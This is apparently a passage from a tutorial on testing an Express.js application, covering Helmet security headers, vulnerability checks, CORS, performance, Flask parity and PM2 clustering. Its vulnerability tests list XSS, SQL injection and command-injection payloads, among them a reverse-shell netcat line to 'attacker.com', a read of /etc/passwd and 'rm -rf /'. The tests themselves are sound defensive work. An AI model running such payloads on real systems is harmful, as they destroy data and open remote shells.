12. **X-Permitted-Cross-Domain-Policies**: Flash/PDF policies
13. **X-Powered-By Removal**: Information disclosure prevention
14. **X-XSS-Protection**: Legacy XSS protection (disabled)
15. **Origin-Agent-Cluster**: Origin-based process isolation

### Step 1: Security Header Testing

```javascript
// test/security/helmet-headers.test.js
import { describe, it, expect, beforeEach, afterEach } from '@jest/globals';
import request from 'supertest';
import { createExpressApp } from '../../src/backend/express-server.js';

describe('Security Testing - Helmet.js Headers', () => {
  let app;
  let server;

  beforeEach(async () => {
    app = await createExpressApp({ 
      environment: 'test',
      enableSecurity: true 
    });
    server = app.listen(0);
  });

  afterEach(async () => {
    if (server) {
      await new Promise(resolve => server.close(resolve));
    }
  });

  describe('Content Security Policy (CSP)', () => {
    it('should set comprehensive CSP headers', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      expect(response.headers).toHaveProperty('content-security-policy');
      
      const csp = response.headers['content-security-policy'];
      expect(csp).toContain("default-src 'self'");
      expect(csp).toContain("script-src");
      expect(csp).toContain("style-src");
    });

    it('should prevent inline script execution', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      const csp = response.headers['content-security-policy'];
      // Should not allow unsafe-inline for scripts unless explicitly configured
      expect(csp).toMatch(/script-src[^;]*(?!'unsafe-inline')/);
    });
  });

  describe('Transport Security Headers', () => {
    it('should set Strict-Transport-Security header', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      expect(response.headers).toHaveProperty('strict-transport-security');
      
      const hsts = response.headers['strict-transport-security'];
      expect(hsts).toContain('max-age=');
      expect(parseInt(hsts.match(/max-age=(\d+)/)[1])).toBeGreaterThan(0);
    });
  });

  describe('Cross-Origin Protection Headers', () => {
    it('should set X-Frame-Options for clickjacking prevention', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      expect(response.headers).toHaveProperty('x-frame-options');
      
      const frameOptions = response.headers['x-frame-options'];
      expect(['DENY', 'SAMEORIGIN']).toContain(frameOptions);
    });

    it('should set Cross-Origin-Opener-Policy', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      expect(response.headers).toHaveProperty('cross-origin-opener-policy');
    });

    it('should set Cross-Origin-Resource-Policy', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      expect(response.headers).toHaveProperty('cross-origin-resource-policy');
    });
  });

  describe('Content Type and XSS Protection', () => {
    it('should set X-Content-Type-Options', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      expect(response.headers).toHaveProperty('x-content-type-options', 'nosniff');
    });

    it('should disable X-XSS-Protection for modern browsers', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      // Helmet disables X-XSS-Protection by setting it to 0
      expect(response.headers).toHaveProperty('x-xss-protection', '0');
    });
  });

  describe('Information Disclosure Prevention', () => {
    it('should remove X-Powered-By header', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      expect(response.headers).not.toHaveProperty('x-powered-by');
    });

    it('should set X-DNS-Prefetch-Control', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      expect(response.headers).toHaveProperty('x-dns-prefetch-control');
    });
  });

  describe('Referrer Policy', () => {
    it('should set appropriate Referrer-Policy', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      expect(response.headers).toHaveProperty('referrer-policy');
      
      const referrerPolicy = response.headers['referrer-policy'];
      const validPolicies = [
        'no-referrer',
        'no-referrer-when-downgrade',
        'origin',
        'origin-when-cross-origin',
        'same-origin',
        'strict-origin',
        'strict-origin-when-cross-origin',
        'unsafe-url'
      ];
      
      expect(validPolicies).toContain(referrerPolicy);
    });
  });
});
```

### Step 2: Vulnerability Assessment Testing

```javascript
// test/security/vulnerability-assessment.test.js
describe('Vulnerability Assessment Testing', () => {
  describe('XSS Prevention Testing', () => {
    it('should prevent reflected XSS attacks', async () => {
      const xssPayloads = [
        '<script>alert("xss")</script>',
        'javascript:alert("xss")',
        '',
        '"><script>alert("xss")</script>',
        '\'-alert("xss")-\'',
        '<svg onload="alert(\'xss\')">'
      ];

      for (const payload of xssPayloads) {
        const response = await request(app)
          .get('/hello')
          .query({ input: payload })
          .expect(200);

        // Ensure XSS payload is not reflected in response
        const responseText = JSON.stringify(response.body);
        expect(responseText.toLowerCase()).not.toContain('<script>');
        expect(responseText.toLowerCase()).not.toContain('javascript:');
        expect(responseText.toLowerCase()).not.toContain('onerror=');
        expect(responseText.toLowerCase()).not.toContain('onload=');
      }
    });

    it('should validate Content-Security-Policy effectiveness', async () => {
      const response = await request(app)
        .get('/hello')
        .expect(200);

      const csp = response.headers['content-security-policy'];
      
      // CSP should prevent common XSS vectors
      expect(csp).not.toContain("'unsafe-eval'");
      expect(csp).toContain("object-src 'none'");
      expect(csp).toContain("base-uri 'self'");
    });
  });

  describe('Injection Attack Prevention', () => {
    it('should handle SQL injection attempts safely', async () => {
      const sqlPayloads = [
        "'; DROP TABLE users; --",
        "1' OR '1'='1",
        "admin'--",
        "1' UNION SELECT * FROM users--"
      ];

      for (const payload of sqlPayloads) {
        const response = await request(app)
          .get('/hello')
          .query({ id: payload })
          .expect(200);

        // Should return normal response, not SQL error
        expect(response.body).toHaveProperty('message', 'Hello world');
      }
    });

    it('should prevent command injection', async () => {
      const commandPayloads = [
        '; cat /etc/passwd',
        '| whoami',
        '`id`',
        '$(ls -la)',
        '&& rm -rf /',
        '; nc -e /bin/sh attacker.com 4444'
      ];

      for (const payload of commandPayloads) {
        const response = await request(app)
          .get('/hello')
          .query({ cmd: payload })
          .expect(200);

        expect(response.body.message).toBe('Hello world');
      }
    });
  });

  describe('Rate Limiting and DoS Protection', () => {
    it('should implement rate limiting', async () => {
      const requests = [];
      const rateLimitThreshold = 100; // Assume 100 requests per minute

      // Send requests rapidly
      for (let i = 0; i < rateLimitThreshold + 10; i++) {
        requests.push(request(app).get('/hello'));
      }

      const responses = await Promise.all(requests);
      
      // Some requests should be rate limited (429 status)
      const rateLimitedResponses = responses.filter(r => r.status === 429);
      expect(rateLimitedResponses.length).toBeGreaterThan(0);
    });

    it('should handle large payload attacks', async () => {
      const largePayload = 'x'.repeat(10 * 1024 * 1024); // 10MB payload

      const response = await request(app)
        .post('/hello')
        .send({ data: largePayload })
        .expect(413); // Payload Too Large

      expect(response.body).toHaveProperty('error');
    });
  });
});
```

### Step 3: CORS Security Testing

```javascript
// test/security/cors-security.test.js
describe('CORS Security Testing', () => {
  describe('Origin Validation', () => {
    it('should allow requests from authorized origins', async () => {
      const authorizedOrigins = [
        'https://mydomain.com',
        'https://app.mydomain.com',
        'http://localhost:3000'
      ];

      for (const origin of authorizedOrigins) {
        const response = await request(app)
          .get('/hello')
          .set('Origin', origin)
          .expect(200);

        expect(response.headers).toHaveProperty('access-control-allow-origin');
      }
    });

    it('should handle unauthorized origins appropriately', async () => {
      const unauthorizedOrigins = [
        'https://malicious.com',
        'http://evil.com',
        'https://phishing-site.com'
      ];

      for (const origin of unauthorizedOrigins) {
        const response = await request(app)
          .get('/hello')
          .set('Origin', origin);

        // Should either block or not set CORS headers
        if (response.status === 200) {
          expect(response.headers['access-control-allow-origin']).not.toBe(origin);
        }
      }
    });
  });

  describe('Preflight Request Validation', () => {
    it('should handle complex CORS preflight requests', async () => {
      const response = await request(app)
        .options('/hello')
        .set('Origin', 'https://mydomain.com')
        .set('Access-Control-Request-Method', 'POST')
        .set('Access-Control-Request-Headers', 'Content-Type, Authorization')
        .expect(204);

      expect(response.headers).toHaveProperty('access-control-allow-methods');
      expect(response.headers).toHaveProperty('access-control-allow-headers');
      expect(response.headers).toHaveProperty('access-control-max-age');
    });
  });
});
```

---

## Performance Testing

### Comprehensive Performance Benchmarking

Performance testing ensures your Express.js application meets production requirements under various load conditions. This section implements comprehensive benchmarking strategies.

#### Performance Testing Objectives
- ✅ **Response Time**: < 100ms average, < 200ms 95th percentile
- ✅ **Throughput**: > 1000 requests/second
- ✅ **Memory Usage**: < 256MB per process
- ✅ **CPU Utilization**: < 70% average
- ✅ **Concurrent Users**: Support 100+ simultaneous connections

### Step 1: Response Time Performance Testing

```javascript
// test/performance/response-time.test.js
import { describe, it, expect, beforeEach, afterEach } from '@jest/globals';
import request from 'supertest';
import { performance } from 'node:perf_hooks';
import { createExpressApp } from '../../src/backend/express-server.js';

describe('Response Time Performance Testing', () => {
  let app;
  let server;

  beforeEach(async () => {
    app = await createExpressApp({ environment: 'test' });
    server = app.listen(0);
  });

  afterEach(async () => {
    if (server) {
      await new Promise(resolve => server.close(resolve));
    }
  });

  describe('Individual Endpoint Performance', () => {
    it('should meet response time targets for /hello endpoint', async () => {
      const measurements = [];
      const iterations = 100;

      for (let i = 0; i < iterations; i++) {
        const startTime = performance.now();
        
        await request(app)
          .get('/hello')
          .expect(200);
        
        const endTime = performance.now();
        measurements.push(endTime - startTime);
      }

      // Calculate statistics
      const averageTime = measurements.reduce((a, b) => a + b) / measurements.length;
      const minTime = Math.min(...measurements);
      const maxTime = Math.max(...measurements);
      
      // Calculate percentiles
      const sortedTimes = measurements.sort((a, b) => a - b);
      const p95 = sortedTimes[Math.floor(0.95 * sortedTimes.length)];
      const p99 = sortedTimes[Math.floor(0.99 * sortedTimes.length)];

      console.log(`/hello Performance Metrics:
        Average: ${averageTime.toFixed(2)}ms
        Min: ${minTime.toFixed(2)}ms
        Max: ${maxTime.toFixed(2)}ms
        95th Percentile: ${p95.toFixed(2)}ms
        99th Percentile: ${p99.toFixed(2)}ms
      `);

      // Performance assertions
      expect(averageTime).toBeLessThan(100);  // < 100ms average
      expect(p95).toBeLessThan(200);          // < 200ms 95th percentile
      expect(p99).toBeLessThan(500);          // < 500ms 99th percentile
    });

    it('should maintain performance under sequential load', async () => {
      const endpoints = ['/hello', '/good-evening', '/health'];
      const performanceResults = {};

      for (const endpoint of endpoints) {
        const startTime = performance.now();
        
        // Sequential requests to measure sustained performance
        for (let i = 0; i < 50; i++) {
          await request(app)
            .get(endpoint)
            .expect(200);
        }
        
        const endTime = performance.now();
        const averageTime = (endTime - startTime) / 50;
        
        performanceResults[endpoint] = averageTime;
        
        expect(averageTime).toBeLessThan(100);
      }

      console.log('Sequential Load Performance:', performanceResults);
    });
  });

  describe('Concurrent Request Performance', () => {
    it('should handle concurrent requests efficiently', async () => {
      const concurrentUsers = 50;
      const requestsPerUser = 10;
      const totalRequests = concurrentUsers * requestsPerUser;

      const startTime = performance.now();

      // Create concurrent user sessions
      const userSessions = Array(concurrentUsers).fill().map(async () => {
        const userRequests = [];
        
        for (let i = 0; i < requestsPerUser; i++) {
          userRequests.push(
            request(app).get('/hello').expect(200)
          );
        }
        
        return Promise.all(userRequests);
      });

      // Execute all user sessions concurrently
      const results = await Promise.all(userSessions);
      const endTime = performance.now();

      const totalTime = endTime - startTime;
      const requestsPerSecond = (totalRequests / (totalTime / 1000));
      const averageResponseTime = totalTime / totalRequests;

      console.log(`Concurrent Load Test Results:
        Total Requests: ${totalRequests}
        Total Time: ${totalTime.toFixed(2)}ms
        Requests per Second: ${requestsPerSecond.toFixed(2)}
        Average Response Time: ${averageResponseTime.toFixed(2)}ms
        Concurrent Users: ${concurrentUsers}
      `);

      // Performance assertions
      expect(requestsPerSecond).toBeGreaterThan(100);    // > 100 req/sec
      expect(averageResponseTime).toBeLessThan(500);     // < 500ms average
      expect(results.flat()).toHaveLength(totalRequests); // All requests successful
    });

    it('should maintain response consistency under load', async () => {
      const concurrentRequests = 100;
      const promises = Array(concurrentRequests).fill().map(() =>
        request(app).get('/hello').expect(200)
      );

      const responses = await Promise.all(promises);

      // Validate response consistency
      responses.forEach(response => {
        expect(response.body.message).toBe('Hello world');
        expect(response.body).toHaveProperty('timestamp');
        expect(response.status).toBe(200);
      });

      // Validate no response corruption
      const uniqueResponses = new Set(responses.map(r => JSON.stringify(r.body)));
      expect(uniqueResponses.size).toBe(concurrentRequests); // Each should have unique timestamp
    });
  });
});
```

### Step 2: Memory and Resource Performance Testing

```javascript
// test/performance/resource-usage.test.js
describe('Memory and Resource Performance Testing', () => {
  describe('Memory Usage Monitoring', () => {
    it('should maintain stable memory usage under load', async () => {
      const initialMemory = process.memoryUsage();
      const memoryMeasurements = [initialMemory];

      // Perform memory-intensive operations
      for (let i = 0; i < 10; i++) {
        // Batch of concurrent requests
        const promises = Array(20).fill().map(() =>
          request(app).get('/hello').expect(200)
        );
        
        await Promise.all(promises);
        
        // Measure memory after each batch
        memoryMeasurements.push(process.memoryUsage());
        
        // Allow garbage collection
        if (global.gc) {
          global.gc();
        }
      }

      // Analyze memory growth
      const finalMemory = memoryMeasurements[memoryMeasurements.length - 1];
      const memoryGrowth = finalMemory.heapUsed - initialMemory.heapUsed;
      const memoryGrowthMB = memoryGrowth / (1024 * 1024);

      console.log(`Memory Usage Analysis:
        Initial Heap: ${(initialMemory.heapUsed / 1024 / 1024).toFixed(2)}MB
        Final Heap: ${(finalMemory.heapUsed / 1024 / 1024).toFixed(2)}MB
        Memory Growth: ${memoryGrowthMB.toFixed(2)}MB
        RSS: ${(finalMemory.rss / 1024 / 1024).toFixed(2)}MB
      `);

      // Memory assertions
      expect(memoryGrowthMB).toBeLessThan(50);           // < 50MB growth
      expect(finalMemory.heapUsed).toBeLessThan(256 * 1024 * 1024); // < 256MB total
    });

    it('should handle memory cleanup correctly', async () => {
      const beforeMemory = process.memoryUsage().heapUsed;

      // Create temporary objects and references
      const tempData = [];
      for (let i = 0; i < 1000; i++) {
        tempData.push({
          id: i,
          data: new Array(1000).fill(`item-${i}`),
          timestamp: new Date().toISOString()
        });
      }

      // Process requests with temporary data
      await request(app).get('/hello').expect(200);

      // Clear references
      tempData.length = 0;

      // Force garbage collection if available
      if (global.gc) {
        global.gc();
      }

      // Wait for cleanup
      await new Promise(resolve => setTimeout(resolve, 100));

      const afterMemory = process.memoryUsage().heapUsed;
      const memoryDiff = Math.abs(afterMemory - beforeMemory) / (1024 * 1024);

      console.log(`Memory Cleanup Test:
        Before: ${(beforeMemory / 1024 / 1024).toFixed(2)}MB
        After: ${(afterMemory / 1024 / 1024).toFixed(2)}MB
        Difference: ${memoryDiff.toFixed(2)}MB
      `);

      // Memory should return to baseline (within reasonable margin)
      expect(memoryDiff).toBeLessThan(10); // < 10MB difference
    });
  });

  describe('CPU Usage Monitoring', () => {
    it('should monitor CPU usage during load testing', async () => {
      const startCPU = process.cpuUsage();
      const startTime = process.hrtime.bigint();

      // CPU-intensive operations
      const promises = Array(100).fill().map(async () => {
        return request(app).get('/hello').expect(200);
      });

      await Promise.all(promises);

      const endCPU = process.cpuUsage(startCPU);
      const endTime = process.hrtime.bigint();
      const elapsedTime = Number(endTime - startTime) / 1000000; // Convert to ms

      const cpuUsagePercent = ((endCPU.user + endCPU.system) / 1000) / elapsedTime * 100;

      console.log(`CPU Usage Analysis:
        User CPU: ${endCPU.user / 1000}ms
        System CPU: ${endCPU.system / 1000}ms
        Total CPU: ${(endCPU.user + endCPU.system) / 1000}ms
        Elapsed Time: ${elapsedTime.toFixed(2)}ms
        CPU Usage: ${cpuUsagePercent.toFixed(2)}%
      `);

      // CPU usage should be reasonable
      expect(cpuUsagePercent).toBeLessThan(90); // < 90% CPU usage
    });
  });
});
```

### Step 3: Load Testing and Stress Testing

```javascript
// test/performance/load-stress.test.js
describe('Load Testing and Stress Testing', () => {
  describe('Sustained Load Testing', () => {
    it('should handle sustained load over time', async () => {
      const testDuration = 30000; // 30 seconds
      const requestInterval = 100;  // 100ms between requests
      const expectedRequests = testDuration / requestInterval;

      const startTime = Date.now();
      const results = [];
      let requestCount = 0;

      while (Date.now() - startTime < testDuration) {
        const requestStart = performance.now();
        
        try {
          await request(app).get('/hello').expect(200);
          
          const requestEnd = performance.now();
          results.push({
            requestNumber: ++requestCount,
            responseTime: requestEnd - requestStart,
            timestamp: Date.now()
          });
        } catch (error) {
          results.push({
            requestNumber: ++requestCount,
            error: error.message,
            timestamp: Date.now()
          });
        }

        // Wait for next request interval
        await new Promise(resolve => setTimeout(resolve, requestInterval));
      }

      const successfulRequests = results.filter(r => !r.error).length;
      const averageResponseTime = results
        .filter(r => r.responseTime)
        .reduce((sum, r) => sum + r.responseTime, 0) / successfulRequests;

      console.log(`Sustained Load Test Results:
        Duration: ${testDuration}ms
        Total Requests: ${requestCount}
        Successful Requests: ${successfulRequests}
        Success Rate: ${(successfulRequests / requestCount * 100).toFixed(2)}%
        Average Response Time: ${averageResponseTime.toFixed(2)}ms
      `);

      // Load test assertions
      expect(successfulRequests / requestCount).toBeGreaterThan(0.95); // > 95% success rate
      expect(averageResponseTime).toBeLessThan(200); // < 200ms average
    });
  });

  describe('Stress Testing - Breaking Point Analysis', () => {
    it('should identify system breaking point', async () => {
      const loadLevels = [10, 25, 50, 100, 200, 500];
      const stressResults = [];

      for (const concurrentUsers of loadLevels) {
        console.log(`Testing with ${concurrentUsers} concurrent users...`);
        
        const startTime = performance.now();
        const requests = Array(concurrentUsers).fill().map(() =>
          request(app).get('/hello')
        );

        try {
          const responses = await Promise.all(requests);
          const endTime = performance.now();
          
          const successCount = responses.filter(r => r.status === 200).length;
          const successRate = successCount / concurrentUsers;
          const totalTime = endTime - startTime;
          const requestsPerSecond = (concurrentUsers / (totalTime / 1000));

          stressResults.push({
            concurrentUsers,
            successCount,
            successRate,
            totalTime,
            requestsPerSecond,
            avgResponseTime: totalTime / concurrentUsers
          });

          // Break if success rate drops below 90%
          if (successRate < 0.9) {
            console.log(`Breaking point reached at ${concurrentUsers} concurrent users`);
            break;
          }
        } catch (error) {
          stressResults.push({
            concurrentUsers,
            error: error.message,
            successRate: 0
          });
          break;
        }
      }

      console.log('Stress Test Results:', stressResults);

      // Find the highest successful load level
      const successfulLevels = stressResults.filter(r => r.successRate >= 0.9);
      const maxConcurrentUsers = Math.max(...successfulLevels.map(r => r.concurrentUsers));

      expect(maxConcurrentUsers).toBeGreaterThan(50); // Should handle at least 50 concurrent users
    });
  });
});
```

---

## Cross-Platform Testing

### Express.js and Flask Feature Parity Validation

Cross-platform testing ensures seamless migration between Express.js and Flask implementations by validating API compatibility, response consistency, and feature parity.

#### Cross-Platform Testing Objectives
- ✅ **API Compatibility**: Identical endpoint behavior
- ✅ **Response Format**: Consistent JSON structure
- ✅ **Status Codes**: HTTP status code standardization
- ✅ **Error Handling**: Equivalent error responses
- ✅ **Performance Parity**: Similar response times

### Step 1: API Endpoint Parity Testing

```javascript
// test/integration/cross-platform.test.js
import { describe, it, expect, beforeEach, afterEach } from '@jest/globals';
import request from 'supertest';
import { createExpressApp } from '../../src/backend/express-server.js';

describe('Cross-Platform Testing - Express.js and Flask Parity', () => {
  let expressApp;
  let expressServer;

  beforeEach(async () => {
    expressApp = await createExpressApp({ environment: 'test' });
    expressServer = expressApp.listen(0);
  });

  afterEach(async () => {
    if (expressServer) {
      await new Promise(resolve => expressServer.close(resolve));
    }
  });

  describe('Endpoint Parity Validation', () => {
    const testEndpoints = [
      {
        path: '/hello',
        method: 'GET',
        expectedStatus: 200,
        expectedMessage: 'Hello world'
      },
      {
        path: '/good-evening',
        method: 'GET',
        expectedStatus: 200,
        expectedMessage: 'Good evening'
      },
      {
        path: '/health',
        method: 'GET',
        expectedStatus: 200,
        expectedFields: ['status', 'timestamp', 'uptime']
      }
    ];

    testEndpoints.forEach(endpoint => {
      it(`should validate ${endpoint.method} ${endpoint.path} endpoint parity`, async () => {
        // Test Express.js implementation
        const expressResponse = await request(expressApp)
          .get(endpoint.path)
          .expect(endpoint.expectedStatus);

        // Simulate Flask response for comparison
        // In a real scenario, this would call the actual Flask application
        const simulatedFlaskResponse = await simulateFlaskResponse(endpoint);

        // Compare response structures
        const parityCheck = validateResponseParity(expressResponse, simulatedFlaskResponse);

        expect(parityCheck.statusCode).toBe(true);
        expect(parityCheck.contentType).toBe(true);
        expect(parityCheck.responseStructure).toBe(true);

        if (endpoint.expectedMessage) {
          expect(expressResponse.body.message).toBe(endpoint.expectedMessage);
          expect(simulatedFlaskResponse.body.message).toBe(endpoint.expectedMessage);
        }

        if (endpoint.expectedFields) {
          endpoint.expectedFields.forEach(field => {
            expect(expressResponse.body).toHaveProperty(field);
            expect(simulatedFlaskResponse.body).toHaveProperty(field);
          });
        }

        console.log(`✅ Parity validated for ${endpoint.method} ${endpoint.path}`);
      });
    });

    it('should validate error handling parity', async () => {
      const errorEndpoints = [
        '/non-existent-endpoint',
        '/invalid-route',
        '/forbidden-path'
      ];

      for (const errorPath of errorEndpoints) {
        // Test Express.js error handling
        const expressErrorResponse = await request(expressApp)
          .get(errorPath)
          .expect(404);

        // Simulate Flask error response
        const flaskErrorResponse = await simulateFlaskErrorResponse(errorPath);

        // Validate error response parity
        expect(expressErrorResponse.status).toBe(flaskErrorResponse.status);
        expect(expressErrorResponse.body).toHaveProperty('error');
        expect(flaskErrorResponse.body).toHaveProperty('error');

        console.log(`✅ Error handling parity validated for ${errorPath}`);
      }
    });
  });

  describe('Response Format Consistency', () => {
    it('should maintain consistent JSON response format', async () => {
      const response = await request(expressApp)
        .get('/hello')
        .expect(200);

      // Validate standard response format
      const expectedStructure = {
        message: expect.any(String),
        timestamp: expect.any(String),
        environment: expect.any(String)
      };

      expect(response.body).toEqual(expectedStructure);

      // Validate timestamp format (ISO 8601)
      const timestamp = new Date(response.body.timestamp);
      expect(timestamp).toBeInstanceOf(Date);
      expect(timestamp.toISOString()).toBe(response.body.timestamp);
    });

    it('should maintain consistent error response format', async () => {
      const response = await request(expressApp)
        .get('/non-existent')
        .expect(404);

      // Validate standard error format
      const expectedErrorStructure = {
        error: expect.any(String),
        status: expect.any(Number),
        path: expect.any(String),
        timestamp: expect.any(String)
      };

      expect(response.body).toMatchObject(expectedErrorStructure);
    });
  });

  describe('Performance Parity Testing', () => {
    it('should compare response times between platforms', async () => {
      const endpoints = ['/hello', '/good-evening', '/health'];
      const performanceComparison = {};

      for (const endpoint of endpoints) {
        // Measure Express.js performance
        const expressTimes = [];
        for (let i = 0; i < 10; i++) {
          const startTime = performance.now();
          await request(expressApp).get(endpoint).expect(200);
          const endTime = performance.now();
          expressTimes.push(endTime - startTime);
        }

        // Simulate Flask performance (in real scenario, measure actual Flask app)
        const flaskTimes = await simulateFlaskPerformance(endpoint, 10);

        const expressAvg = expressTimes.reduce((a, b) => a + b) / expressTimes.length;
        const flaskAvg = flaskTimes.reduce((a, b) => a + b) / flaskTimes.length;
        const performanceDiff = Math.abs(expressAvg - flaskAvg);
        const performanceVariance = (performanceDiff / Math.min(expressAvg, flaskAvg)) * 100;

        performanceComparison[endpoint] = {
          expressAvg: expressAvg.toFixed(2),
          flaskAvg: flaskAvg.toFixed(2),
          difference: performanceDiff.toFixed(2),
          variancePercent: performanceVariance.toFixed(2)
        };

        // Performance should be within reasonable range (within 50% variance)
        expect(performanceVariance).toBeLessThan(50);
      }

      console.log('Performance Comparison:', performanceComparison);
    });
  });

  describe('Migration Readiness Assessment', () => {
    it('should validate complete migration readiness', async () => {
      const migrationChecklist = {
        endpointParity: true,
        responseFormatConsistency: true,
        errorHandlingParity: true,
        performanceCompatibility: true,
        headerCompatibility: true
      };

      // Validate endpoint parity
      const endpoints = ['/hello', '/good-evening', '/health'];
      for (const endpoint of endpoints) {
        try {
          const response = await request(expressApp).get(endpoint);
          const simulation = await simulateFlaskResponse({ path: endpoint, method: 'GET' });
          
          if (!validateResponseParity(response, simulation).overall) {
            migrationChecklist.endpointParity = false;
          }
        } catch (error) {
          migrationChecklist.endpointParity = false;
        }
      }

      // Calculate migration readiness score
      const passedChecks = Object.values(migrationChecklist).filter(Boolean).length;
      const totalChecks = Object.keys(migrationChecklist).length;
      const migrationScore = (passedChecks / totalChecks) * 100;

      console.log(`Migration Readiness Assessment:
        Endpoint Parity: ${migrationChecklist.endpointParity ? '✅' : '❌'}
        Response Format: ${migrationChecklist.responseFormatConsistency ? '✅' : '❌'}
        Error Handling: ${migrationChecklist.errorHandlingParity ? '✅' : '❌'}
        Performance: ${migrationChecklist.performanceCompatibility ? '✅' : '❌'}
        Headers: ${migrationChecklist.headerCompatibility ? '✅' : '❌'}
        
        Migration Score: ${migrationScore}%
        Status: ${migrationScore >= 90 ? 'READY' : 'NEEDS WORK'}
      `);

      expect(migrationScore).toBeGreaterThan(80); // Minimum 80% compatibility
    });
  });
});

// Helper functions for cross-platform testing
async function simulateFlaskResponse(endpoint) {
  // In a real implementation, this would make HTTP requests to a Flask application
  // For educational purposes, we'll simulate Flask responses
  
  const baseResponse = {
    status: endpoint.expectedStatus || 200,
    headers: {
      'content-type': 'application/json'
    }
  };

  switch (endpoint.path) {
    case '/hello':
      return {
        ...baseResponse,
        body: {
          message: 'Hello world',
          timestamp: new Date().toISOString(),
          environment: 'test'
        }
      };
    
    case '/good-evening':
      return {
        ...baseResponse,
        body: {
          message: 'Good evening',
          timestamp: new Date().toISOString(),
          environment: 'test'
        }
      };
    
    case '/health':
      return {
        ...baseResponse,
        body: {
          status: 'OK',
          timestamp: new Date().toISOString(),
          uptime: process.uptime(),
          environment: 'test'
        }
      };
    
    default:
      return {
        status: 404,
        body: {
          error: 'Not Found',
          status: 404,
          path: endpoint.path,
          timestamp: new Date().toISOString()
        }
      };
  }
}

async function simulateFlaskErrorResponse(path) {
  return {
    status: 404,
    body: {
      error: 'Not Found',
      status: 404,
      path: path,
      timestamp: new Date().toISOString()
    }
  };
}

async function simulateFlaskPerformance(endpoint, iterations) {
  // Simulate Flask response times (slightly slower than Express.js for realism)
  const times = [];
  for (let i = 0; i < iterations; i++) {
    // Simulate 20-50ms response times for Flask
    const simulatedTime = 20 + Math.random() * 30;
    times.push(simulatedTime);
  }
  return times;
}

function validateResponseParity(expressResponse, flaskResponse) {
  return {
    statusCode: expressResponse.status === flaskResponse.status,
    contentType: expressResponse.headers['content-type']?.includes('json') === 
                 flaskResponse.headers['content-type']?.includes('json'),
    responseStructure: JSON.stringify(Object.keys(expressResponse.body).sort()) === 
                       JSON.stringify(Object.keys(flaskResponse.body).sort()),
    overall: true // Simplified for educational purposes
  };
}
```

---

## PM2 Cluster Testing

### Production Deployment Testing with PM2

PM2 cluster mode testing validates production deployment scenarios, load balancing, zero-downtime deployment, and process management capabilities essential for enterprise applications.

#### PM2 Testing Objectives
- ✅ **Cluster Mode Validation**: Multi-process deployment testing
- ✅ **Load Balancing**: Request distribution across workers
- ✅ **Zero-Downtime Deployment**: Process reload testing
- ✅ **Health Monitoring**: Process health and automatic restart
- ✅ **Resource Management**: Memory and CPU utilization

### Step 1: PM2 Cluster Mode Validation

```javascript
// test/pm2/cluster-mode.test.js
import { describe, it, expect, beforeAll, afterAll } from '@jest/globals';
import { spawn, exec } from 'node:child_process';
import { promisify } from 'node:util';
import request from 'supertest';

const execAsync = promisify(exec);

describe('PM2 Cluster Mode Testing', () => {
  let pm2Process;
  const appName = 'test-tutorial-app';
  const testPort = 3001;

  beforeAll(async () => {
    // Start application with PM2 cluster mode
    await startPM2ClusterApp();
    
    // Wait for application to be ready
    await waitForAppReady();
  });

  afterAll(async () => {
    // Clean up PM2 processes
    await cleanupPM2();
  });

  describe('Process Management Validation', () => {
    it('should start multiple worker processes in cluster mode', async () => {
      const { stdout } = await execAsync(`pm2 jlist`);
      const processList = JSON.parse(stdout);
      
      const appProcesses = processList.filter(proc => proc.name === appName);
      
      expect(appProcesses.length).toBeGreaterThan(1);
      
      appProcesses.forEach(process => {
        expect(process.pm2_env.exec_mode).toBe('cluster_mode');
        expect(process.pm2_env.status).toBe('online');
        expect(process.pid).toBeGreaterThan(0);
      });

      console.log(`✅ PM2 started ${appProcesses.length} worker processes`);
    });

    it('should validate PM2 process configuration', async () => {
      const { stdout } = await execAsync(`pm2 show ${appName}`);
      
      expect(stdout).toContain('exec mode : cluster_mode');
      expect(stdout).toContain('status : online');
      expect(stdout).toContain('restarts :');
      expect(stdout).toContain('uptime :');
      
      console.log('✅ PM2 configuration validated');
    });

    it('should validate environment variables', async () => {
      const response = await request(`http://localhost:${testPort}`)
        .get('/health')
        .expect(200);

      expect(response.body).toHaveProperty('environment');
      expect(response.body.environment).toBe('production');
      
      console.log('✅ Environment variables configured correctly');
    });
  });

  describe('Load Balancing Validation', () => {
    it('should distribute requests across worker processes', async () => {
      const numberOfRequests = 100;
      const processIds = new Set();

      // Make multiple requests to collect process IDs
      for (let i = 0; i < numberOfRequests; i++) {
        const response = await request(`http://localhost:${testPort}`)
          .get('/hello')
          .expect(200);

        // Assuming the response includes process ID (would need to add this to the app)
        if (response.body.processId) {
          processIds.add(response.body.processId);
        }
      }

      // Should have requests handled by multiple processes
      expect(processIds.size).toBeGreaterThan(1);
      
      console.log(`✅ Load balanced across ${processIds.size} processes`);
    });

    it('should handle concurrent requests efficiently', async () => {
      const concurrentRequests = 50;
      const startTime = Date.now();

      const requests = Array(concurrentRequests).fill().map(() =>
        request(`http://localhost:${testPort}`)
          .get('/hello')
          .expect(200)
      );

      const responses = await Promise.all(requests);
      const endTime = Date.now();

      const totalTime = endTime - startTime;
      const requestsPerSecond = (concurrentRequests / (totalTime / 1000));

      expect(responses).toHaveLength(concurrentRequests);
      expect(requestsPerSecond).toBeGreaterThan(50); // Should handle > 50 req/sec
      
      console.log(`✅ Handled ${concurrentRequests} concurrent requests in ${totalTime}ms (${requestsPerSecond.toFixed(2)} req/sec)`);
    });
  });

  describe('Zero-Downtime Deployment Testing', () => {
    it('should handle graceful reload without downtime', async () => {
      let requestsSucceeded = 0;
      let requestsFailed = 0;
      let reloadCompleted = false;

      // Start continuous requests during reload
      const continuousRequests = async () => {
        while (!reloadCompleted) {
          try {
            await request(`http://localhost:${testPort}`)
              .get('/hello')
              .timeout(5000);
            requestsSucceeded++;
          } catch (error) {
            requestsFailed++;
          }
          
          await new Promise(resolve => setTimeout(resolve, 10));
        }
      };

